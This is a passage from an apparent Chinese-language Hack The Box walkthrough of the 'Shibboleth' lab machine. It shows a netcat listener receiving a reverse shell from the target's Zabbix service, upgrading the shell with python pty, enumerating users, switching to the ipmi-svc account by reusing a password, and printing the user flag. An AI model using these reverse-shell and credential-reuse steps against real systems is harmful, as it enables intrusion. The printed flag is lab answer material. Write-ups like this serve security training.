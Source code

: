 Zabbix 管理控制台中的项目名称

现在启动 netcat 监听并等待 shell 连接:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.124] 44692
bash: cannot set terminal process group (1132): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$
```

首先让我们得到一个合适的外壳:

```
zabbix@shibboleth:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/shibboleth]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
zabbix@shibboleth:/$ stty rows 61 cols 237
```

现在看看我们是谁:

```
zabbix@shibboleth:/$ whoami
zabbix
zabbix@shibboleth:/$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
zabbix@shibboleth:/$ cat /etc/passwd | grep zabbix
zabbix:x:110:118::/var/lib/zabbix/:/usr/sbin/nologin
```

所以我们是作为无法登录的服务帐户连接的。在/home 中，我们看到只有一个用户:

```
zabbix@shibboleth:/$ ls -ls /home
4 drwxr-xr-x 4 ipmi-svc ipmi-svc 4096 Nov 28 16:35 ipmi-svc
```

# 用户标志

尝试使用我们用来登录仪表板的相同密码:

```
zabbix@shibboleth:/$ su ipmi-svc
Password:
ipmi-svc@shibboleth:/$
```

现在我们可以获取用户标志:

```
ipmi-svc@shibboleth:~$ cat user.txt
e90fa80a610ef639e26119e93a143a50
```
